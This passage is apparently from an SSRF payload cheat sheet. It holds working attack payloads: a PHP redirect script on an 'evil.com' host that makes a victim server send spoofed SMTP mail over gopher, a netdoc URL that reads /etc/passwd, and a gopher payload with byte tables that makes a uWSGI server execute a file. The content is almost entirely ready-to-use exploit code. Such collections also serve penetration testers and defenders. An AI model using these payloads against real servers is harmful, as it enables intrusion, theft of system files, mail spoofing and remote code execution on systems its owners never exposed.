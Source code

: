 #### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
``` 

## SSRF exploiting WSGI

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |
	